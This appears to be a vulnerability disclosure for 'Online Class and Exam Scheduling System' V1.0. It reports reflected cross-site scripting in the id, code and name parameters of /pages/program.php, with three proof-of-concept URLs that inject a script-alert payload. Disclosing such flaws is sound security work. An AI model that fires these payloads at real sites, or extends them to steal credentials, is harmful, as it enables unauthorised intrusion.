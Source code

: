 # NAME OF AFFECTED PRODUCT(S)

Online Class and Exam Scheduling System

# VERSION(S)

V1.0

# submitter

lvzhouhang

# Vulnerable File

/pages/program.php

Prerequisite: You need to log in first

# Software Link

https://download.code-projects.org/details/93487762-3e23-48ab-a56f-af5e61441ee1

# Vulnerability Type

Cross Site Scripting

in /pages/program.php   `id` and  `code` and `name` Parameters have Cross Site Scripting(XSS)

A malicious attacker can use this vulnerability to obtain administrator login credentials or phishing websites

# POC

~~~
pages/program.php?id="><script>alert(1)</script><c"
~~~

~~~
pages/program.php?code="><script>alert(1)</script><c"
~~~

~~~
pages/program.php?name="><script>alert(1)</script><c"
